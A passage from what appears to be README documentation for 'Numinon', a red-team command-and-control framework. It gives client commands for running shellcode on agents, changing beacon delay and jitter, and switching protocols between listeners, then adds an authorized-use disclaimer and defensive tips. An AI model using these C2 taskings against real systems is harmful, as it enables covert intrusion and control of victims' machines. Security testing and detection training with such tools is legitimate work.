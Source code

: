 **Execute Shellcode:**
```bash
./bin/numinon-client -action task-shellcode \
  -agent <AGENT_ID> \
  -shellcode /path/to/shellcode.bin \
  -export LaunchCalc
```

**Morph Configuration:**
```bash
./bin/numinon-client -action task-morph \
  -agent <AGENT_ID> \
  -delay 60s \
  -jitter 0.5
```

**Protocol Hop:**
```bash
./bin/numinon-client -action task-hop \
  -agent <AGENT_ID> \
  -hop-proto WSS \
  -hop-ip 192.168.1.200 \
  -hop-port 8443
```

### Monitoring Operations

**List Agents:**
```bash
./bin/numinon-client -action list-agents
```

**Get Agent Details:**
```bash
./bin/numinon-client -action agent-details -agent <AGENT_ID>
```

**List Listeners:**
```bash
./bin/numinon-client -action list-listeners
```

## 🔒 Security Considerations

### ⚠️ **IMPORTANT DISCLAIMER**
This framework is designed for **authorized security testing and educational purposes only**.

**DO NOT USE** this tool:
- On systems you do not own or have explicit permission to test
- For any illegal activities
- In production environments without proper authorization
- To harm or compromise systems

### Defensive Recommendations
When using Numinon for defensive training:
1. Deploy in isolated lab environments
2. Monitor network traffic for C2 patterns
3. Implement proper network segmentation
4. Use the framework to test detection capabilities
5. Document all testing activities
